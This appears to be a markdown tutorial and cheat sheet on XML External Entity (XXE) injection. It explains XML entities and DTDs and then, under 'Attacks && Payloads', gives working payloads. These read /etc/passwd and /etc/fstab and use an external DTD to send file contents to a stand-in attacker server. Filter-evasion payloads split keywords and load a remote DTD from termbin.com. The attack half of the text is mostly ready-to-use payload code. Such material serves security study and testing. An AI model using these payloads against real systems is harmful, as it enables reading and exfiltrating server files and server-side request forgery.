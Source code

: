External XML Entities (XXE)
=====================

## Overview

### XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

#### XML Structure && Syntax

```xml
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitive
+ "",'',<,> are illegal characters in XML due to the parser not knowing how to handel them

### Entities && The DTD

Entities operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


#### Document Type Definition (DTD)

```xml
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

##### General Entities

```xml
<!ENTITY generalEntity "arbitrary">

<Usage>&generalEntity;</Usage>
```

##### Parameter Entities

```xml
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

##### Predefined

```xml
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

## XXE Types

### Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

### Error Based

+ No output
+ A kind of blind XXE injection

### Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


## Attacks && Payloads

### Read System Files

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword retrieves arbitrary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achieve arbitrary read 

#### Include Entities Remotely

```xml
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

### External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```xml
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

### Blind XXE Payloads Using External DTDs

#### External DTD (external_payload.dtd)

```xml
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

#### XXE Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

### Filter Evasion

#### External DTD 

```xml
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```

#### Main XML

```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %combined;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

### Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntactic characters like `<,>` a work around must be implemented in order to read these files


#### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```xml
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired
